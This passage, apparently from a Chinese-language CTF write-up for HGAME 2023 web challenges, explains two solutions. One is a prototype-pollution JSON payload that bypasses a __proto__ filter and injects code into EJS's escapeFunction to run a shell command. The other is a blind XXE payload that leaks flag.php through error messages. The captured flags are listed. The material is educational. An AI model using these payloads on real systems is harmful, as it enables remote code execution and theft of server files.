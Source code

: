 原型链污染, 过滤了 `__proto__`, 用 `constructor.prototype` 绕过

之后是 ejs 模板注入

[https://www.anquanke.com/post/id/236354](https://www.anquanke.com/post/id/236354)

```json
{
    "username":"admin",
    "password":"123456",
    "constructor":{
        "prototype":{
            "client":true,"escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');" 
        }
    }
}
```

![image-20230131212113654](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301312122776.png)

`hgame{N0tice_prototype_pollution&&EJS_server_template_injection}`

### Tell Me

blind xxe, 用错误回显外带数据

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ELEMENT message ANY>
    <!ENTITY % file SYSTEM "file:///var/www/html/flag.php">
    <!ENTITY % eval1 '
        <!ENTITY &#x25; eval2 "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;&#x25;file;&#x27;>
        ">
        &#x25;eval2;
    '>
    %eval1;
]>
<user><name>123</name><email>123</email><content>123</content></user>
```

![image-20230131212319020](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301312123103.png)

`hgame{Be_Aware_0f_XXeBl1nd1njecti0n}`